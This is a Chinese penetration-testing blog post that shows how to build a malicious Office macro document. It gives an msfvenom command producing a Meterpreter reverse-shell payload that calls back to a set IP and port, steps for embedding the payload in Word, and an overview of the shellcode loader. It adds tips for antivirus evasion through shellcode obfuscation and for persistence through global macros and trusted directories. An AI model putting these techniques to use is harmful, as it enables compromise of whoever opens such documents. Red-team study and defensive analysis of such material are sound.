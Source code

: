 ```yaml
---
title: office宏
layout: post
date: '2019-05-16'
categories: 内网渗透
permalink: "/archivers/2019-05-16/1"
description:  从msf生成的宏来学习
---
```


## 0x00 宏 - Macro

office宏，译自英文单词Macro。宏是微软公司为其office软件包设计的一个特殊功能，软件设计者为了让人们在使用软件进行工作时，避免一再地重复相同的动作而设计出来的一种工具，它利用简单的语法，把常用的动作写成宏，当在工作时，就可以直接利用事先编好的宏自动运行，去完成某项特定的任务，而不必再重复相同的动作，目的是让用户文档中的一些任务自动化。


Visual Basic for Applications（VBA）是Visual Basic的一种宏语言，是微软开发出来在其桌面应用程序中执行通用的自动化(OLE)任务的编程语言。主要能用来扩展Windows的应用程序功能，特别是Microsoft Office软件。也可说是一种应用程式视觉化的Basic 脚本。该语言于1993年由微软公司开发的的应用程序共享一种通用的自动化语言-Visual Basic for Application(VBA)，实际上VBA是寄生于VB应用程序的版本。

## 0x01 生成宏

```bash
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=71.19.144.69 LPORT=8899 -f vba -o try.vba
```

使用msf就可以生成宏代码，接下来只要放入word或者excel、ppt即可。

## 0x02 创建宏

新建一个文档，另存为“启用宏的Word文档”：

![2019-05-15-14-00-36](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/f905ed50aefb30dab9fbd923e1b296a1.png)


视图-查看宏：

![2019-05-15-14-02-48](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/e0140a93e1c3cf38cac2031d4f3e20a7.png)

随便输入一个宏名称，点击“创建”：

![2019-05-15-14-03-34](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/59c264e10758640d4a05a3ccecccf4f9.png)

此时进入宏编辑器：

![2019-05-15-14-04-57](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/a659557648212e62b9cd221b7306c7cf.png)

将msf生成的payload放入：

![2019-05-15-14-05-45](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/c8d03acde64f5652936b7b4757c1ddfc.png)

保存文件，关闭，再打开即可执行宏代码。

## 0x03 宏代码分析

msf生成默认的vba会导入三个api函数，常见的shellcode加载器代码：

![2019-05-15-14-07-11](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/f07106d7fd8e17930a285fa9e20c824c.png)

- CreateThread 创建线程
- VirtualAlloc 申请虚拟内存空间
- RtlMoveMemory 拷贝内存


```c++
HANDLE CreateThread(
  LPSECURITY_ATTRIBUTES   lpThreadAttributes,
  SIZE_T                  dwStackSize,
  LPTHREAD_START_ROUTINE  lpStartAddress,
  __drv_aliasesMem LPVOID lpParameter,
  DWORD                   dwCreationFlags,
  LPDWORD                 lpThreadId
);
```


```c++
LPVOID VirtualAlloc(
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD  flAllocationType,
  DWORD  flProtect
);
```


```c++
VOID RtlMoveMemory(
  VOID * Destination,
  VOID * Source,
  DWORD Length
);
```

其中`Array(72,131,228,240,232,...`就是shellcode，混淆的办法有很多种。

shellcode可以自己在VBA里解码或者比如每个元素自增1，运行的时候-1，达到免杀...


## 0x04 效果


> 在线地址：[https://www.bilibili.com/video/av52532639/](https://www.bilibili.com/video/av52532639/)


<iframe src="//player.bilibili.com/player.html?aid=52532639&page=1&cid" scrolling="no" border="0" frameborder="no" framespacing="0" allowfullscreen="true" width="95%" height="450"> </iframe>


## 0x05 拓展分析

如果创建的是全局宏，Office会在这个目录生成一个dotm文档：

`C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Templates`


![2019-05-15-14-53-42](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/be60c1522a347282be8fcbfc77b69986.png)


全局宏是对于当前计算机所有文档对象有效，即文档本身不包含宏代码，也可以运行全局宏。

![2019-05-15-14-54-49](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/0a83240eaa48371c5af1d45b94e9a6c8.png)

很遗憾，全局宏没有一个固定的名称，也就是说要先通过Office创建一个全局宏，然后其他文档打开时才可以执行代码。

![2019-05-15-15-52-06](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/b93a33d4a8037bb9bbaf0ab152cf7e61.png)

经过测试，这个全局宏中的文件：`vbaProject.bin`是包含了特征的文件，但是反病毒软件不会扫描这个文件，除非主动查杀。

这个特性可能可以达到维持权限的作用。

**后来才发现我使用的还是全局宏达到的免杀**


HKEY_CURRENT_USER\Software\Microsoft\Office\16.0\PowerPoint\Security\Trusted Locations

同过PorcessMonitor分析，从注册表找到几个授信目录：

- %APPDATA%\Microsoft\Templates
- C:\Program Files\Microsoft Office\Root\Templates\
- %APPDATA%\Microsoft\Addins
- C:\Program Files\Microsoft Office\Root\Document Themes 16\

